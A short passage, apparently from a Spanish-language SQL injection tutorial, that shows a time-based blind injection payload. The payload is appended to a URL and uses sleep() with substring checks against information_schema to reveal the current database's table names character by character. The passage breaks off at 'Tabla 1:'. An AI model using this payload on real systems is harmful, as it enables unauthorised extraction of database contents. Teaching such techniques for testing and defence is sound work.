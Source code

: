 ![av. cant. car. tbl](/assets/img/screens/av_car_tbl2.png)

La cantidad máxima de caracteres es: 9.

<br>
"Visualizando" tablas de la base de datos actual:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND IF(substring((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT x,1),x,1)='x',sleep(8),null);#</font></pre>

<br>
Tabla 1:
